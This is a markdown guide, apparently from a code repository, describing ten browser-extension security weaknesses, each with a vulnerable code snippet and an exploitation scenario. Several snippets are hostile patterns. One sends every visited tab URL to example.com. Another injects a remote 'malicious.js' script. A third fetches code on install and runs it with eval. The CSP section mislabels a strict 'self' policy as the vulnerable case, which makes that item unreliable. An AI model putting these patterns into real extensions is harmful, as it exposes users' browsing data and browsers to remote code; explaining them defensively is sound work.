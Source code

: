 # Browser Extension Security Vulnerabilities

This document outlines common security vulnerabilities found in browser extensions and provides examples of how attackers can exploit these vulnerabilities.

## 1. Permissions Overreach
**Vulnerable Code Example:**
```json
{
  "manifest_version": 2,
  "name": "My Extension",
  "permissions": [
    "tabs",
    "http://*/*",
    "https://*/*",
    "storage"
  ]
}
```

**Exploitation Scenario:**

An extension with broad permissions can access all tabs and browsing data. If the extension is compromised, an attacker can capture sensitive information from any website the user visits, including passwords and personal data.

## 2. Data Leakage

**Vulnerable Code Example:**

```javascript
chrome.tabs.onUpdated.addListener((tabId, changeInfo, tab) => {
  if (changeInfo.status === 'complete') {
    fetch('http://example.com/track', {
      method: 'POST',
      body: JSON.stringify({ url: tab.url })
    });
  }
});
```
This code can leak user URLs to a remote server.

**Exploitation Scenario:**

An extension sending the URLs of all visited pages to a remote server can inadvertently leak sensitive information, especially if users visit banking or personal sites.

## 3. Cross-Site Scripting (XSS)

**Vulnerable Code Example:**

```javascript
let userInput = document.getElementById('input').value;
document.getElementById('output').innerHTML = userInput; // No sanitization
```
**Exploitation Scenario:**

User inputs can execute scripts in the page's context. An attacker could inject scripts that steal cookies, session tokens, or sensitive data.

## 4. Insecure Communication

**Vulnerable Code Example:**
```javascript
fetch('http://example.com/api/data')
```
**Exploitation Scenario:**

Data sent over insecure HTTP can be intercepted by attackers on the same network, allowing them to capture sensitive information, such as tokens or personal data.

## 5. Code Injection

**Vulnerable Code Example:**
```javascript
let script = document.createElement('script');
script.src = 'http://example.com/malicious.js';
document.body.appendChild(script);
```
**Exploitation Scenario:**

If an attacker controls the script URL, they can inject malicious code into the page, leading to data theft or manipulation of the page’s functionality.

## 6. Malicious Updates

**Vulnerable Code Example:**

```javascript
chrome.runtime.onInstalled.addListener(() => {
  fetch('http://example.com/update-script.js')
    .then(response => response.text())
    .then(eval); // Potentially unsafe
});

```
**Exploitation Scenario:**

If the update mechanism is compromised, attackers can push malicious code to users without their knowledge, potentially gaining control over their browsers.


## 7. Third-Party Dependencies

**Vulnerable Code Example:**

```json
{
  "dependencies": {
    "vulnerable-lib": "1.0.0"
  }
}

```
**Exploitation Scenario:**

An extension relying on outdated third-party libraries may become vulnerable if those libraries have known security flaws that attackers can exploit.

## 8. Lack of Content Security Policy (CSP)

**Vulnerable Code Example:**

```json

{
  "manifest_version": 2,
  "name": "My Extension",
  "content_security_policy": "default-src 'self'"
}

```

**Exploitation Scenario:**

Without a strong CSP, attackers can inject untrusted content, increasing the risk of XSS and other attacks that manipulate the extension’s behavior.

## 9. Insecure Storage

**Vulnerable Code Example:**

```javascript
localStorage.setItem('token', 'my-secret-token'); // No encryption
```
**Exploitation Scenario:**

If an attacker gains access to the local storage, they can easily retrieve sensitive information, such as tokens or user credentials, leading to unauthorized access.

## 10. Insufficient Privacy Controls

**Vulnerable Code Example:**

```json
{
  "manifest_version": 2,
  "name": "My Extension",
  "description": "A cool extension with no privacy policy."
}

```
**Exploitation Scenario:**

Users may be unaware of how their data is being collected or used, leading to potential abuse of their information without consent or awareness.
